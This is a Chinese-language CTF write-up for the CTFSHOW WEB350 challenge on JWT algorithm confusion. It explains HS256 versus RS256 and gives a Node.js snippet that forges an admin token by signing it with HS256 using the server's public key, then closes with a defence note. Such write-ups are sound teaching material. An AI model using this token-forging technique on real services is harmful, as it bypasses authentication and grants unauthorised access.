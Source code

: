 # CTFSHOW WEB350

## 前言

JWT签名算法中，一般有两个选择，一个采用HS256,另外一个就是采用RS256。
签名实际上是一个加密的过程，生成一段标识（也是JWT的一部分）作为接收方验证信息是否被篡改的依据。

RS256 (采用SHA-256 的 RSA 签名) 是一种非对称算法, 它使用公共/私钥对: 标识提供方采用私钥生成签名, JWT 的使用方获取公钥以验证签名。由于公钥 (与私钥相比) 不需要保护, 因此大多数标识提供方使其易于使用方获取和使用 (通常通过一个元数据URL)。
另一方面, HS256 (带有 SHA-256 的 HMAC 是一种对称算法, 双方之间仅共享一个 密钥。由于使用相同的密钥生成签名和验证签名, 因此必须注意确保密钥不被泄密。

在开发应用的时候启用JWT，使用RS256更加安全，你可以控制谁能使用什么类型的密钥。另外，如果你无法控制客户端，无法做到密钥的完全保密，RS256会是个更佳的选择，JWT的使用方只需要知道公钥。

由于公钥通常可以从元数据URL节点获得，因此可以对客户端进行进行编程以自动检索公钥。如果采用这种方式，从服务器上直接下载公钥信息，可以有效的减少配置信息。

## 利用

此攻击的原因是某些库对签名/验证HMAC对称加密的密钥和包含用于验证RSA签名令牌的公钥的密钥使用相同的变量名。
通过将算法调整为HMAC变体（HS256/HS384/HS512）并使用公共可用公钥对其进行签名，我们可以欺骗服务使用机密变量中的硬编码公钥验证HMAC令牌。



## WP

由于jwt在python和php的库不同，造成在这里只能自己手动生成了,之后运行nodejs获取cookie去替换即可

```javascript
router.get('/', function(req, res, next) {
  res.type('html');
  var cert = fs.readFileSync(process.cwd()+'//routes/public.key');
  var token = jwt.sign({ user: 'admin' }, cert, { algorithm: 'HS256' });

  res.cookie('auth',token);
  res.end('where is flag?');
  
});
```

## 如何防御

JWT配置应该只允许使用HMAC算法或公钥算法，决不能同时使用这两种算法

